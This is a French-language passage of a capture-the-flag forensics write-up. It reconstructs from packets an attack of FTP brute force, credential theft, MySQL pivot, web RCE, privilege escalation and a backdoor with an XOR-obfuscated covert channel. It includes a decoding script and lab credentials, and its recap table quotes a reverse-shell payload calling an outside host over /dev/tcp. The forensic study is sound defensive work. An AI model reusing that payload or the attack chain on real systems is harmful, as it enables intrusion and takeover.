

Le mécanisme est clair : chaque commande est envoyée en **hexadécimal**, puis passée dans `xor(message, KEY)` avec **`KEY = "super_secret_key"`**. On peut donc décoder les chaînes capturées en réutilisant la propre fonction du malware :

```python
# decode_c2.py : décode le canal caché (même routine XOR que backdoor.py)
def xor(message, key="super_secret_key"):
    message = bytes.fromhex(message)
    key = key.encode()
    xor_key = (key * (len(message) // len(key) + 1))[:len(message)]
    return bytes([a ^ b for a, b in zip(message, xor_key)]).decode()

hex_captures = [
    "1f067a",
    "1a117a",
    "10140445152d4355175c110c2b61",
    "1616180a527d150902151e176f05020b1201033a43392c1c53073a196b0f562642012f1143331f3a0b41174700080d4d1e050d47522353120b1d04193661",
]
for h in hex_captures:
    print(f"{h[:16]:<18}->  {xor(h)!r}")
```



Les trois premières chaînes se décodent en commandes simples (`ls`, `id`, `cat gr00t.txt`), et **la dernière cache le flag final** transmis par le canal :
```
flag{c0ngrats_1f_y0u_m4d3_1t_t1ll_h3r3_ch4mp}
```
(la commande réelle était `echo "flag{...}" | whoami`, d'où le `root` affiché à l'écran). **L'information transmise par le canal caché**, une fois désobfusquée, est donc la série de commandes de l'attaquant et ce flag de validation.

> Le script de décodage est fourni : [`decode_c2.py`](./decode_c2.py).

---

## Récapitulatif

| # | Question | Réponse |
|:---:|---|---|
| 1 | Protocoles | ICMP, TCP, TLS, MySQL, HTTP, FTP |
| 2 | Mot de passe FTP | `batman` |
| 3 | Infos volées en FTP | `credentials.txt` (identifiants DB `myuser` / `P@ssw0rd123456!`) et `.bash_history` |
| 4 | Action menée | Connexion à MySQL avec ces identifiants, puis dump de la table `root_credentials` |
| 5 | Mot de passe root | `1amgr000000t!@#$` |
| 6 | RCE (paquets + charge) | Paquets 2665, 2674, 2678 sur `command.php` ; charge `bash -i >& /dev/tcp/192.168.0.106/4444 0>&1` |
| 7 | Post exploitation | Shell inversé en `www-data`, puis `su root` avec le mot de passe volé |
| 8 | Fichier lu dans /root | `gr00t.txt` → `flag{1_4m_gr00000t!}` |
| 9 | Fichier téléchargé | `backdoor.py`, porte dérobée de persistance en écoute sur le port 5555 |
| 10 | Canal caché | Porte dérobée obfusquée (XOR + hex) → `flag{c0ngrats_1f_y0u_m4d3_1t_t1ll_h3r3_ch4mp}` |

### La chaîne d'attaque reconstituée

Brute force FTP → vol d'un fichier d'identifiants → pivot vers MySQL → vol du mot de passe root → RCE web → shell inversé → élévation vers root → persistance par porte dérobée obfusquée. Toute cette chronologie a été reconstituée **uniquement à partir des paquets**, sans jamais accéder au serveur.

### Ce que j'ai appris

* La **hiérarchie des protocoles** est la carte de départ : elle dit immédiatement où chercher.
* En FTP, le **canal de commande** et le **canal de données** sont séparés : il faut filtrer `ftp-data` pour lire les fichiers transférés.
* Les protocoles en clair (FTP, HTTP, MySQL non chiffré) exposent tout : mots de passe, requêtes SQL, commandes.
* Un **reverse shell** déplace l'action hors du HTTP, vers une connexion TCP dédiée qu'il faut suivre séparément.
* Un **canal caché** se reconnaît à son obfuscation ; lire le code du malware donne la clé pour la défaire.

## Note éthique

L'analyse a été menée uniquement sur la capture fournie par le lab, dans un environnement isolé. Les artefacts bruts (`challenge.pcapng`, `backdoor.py`) ne sont pas redistribués dans ce dépôt ; seules les captures d'analyse et le script de décodage le sont.

## Source

Lab issu de [vonderchild/digital-forensics-lab — Lab 05](https://github.com/vonderchild/digital-forensics-lab/tree/main/Lab%2005).
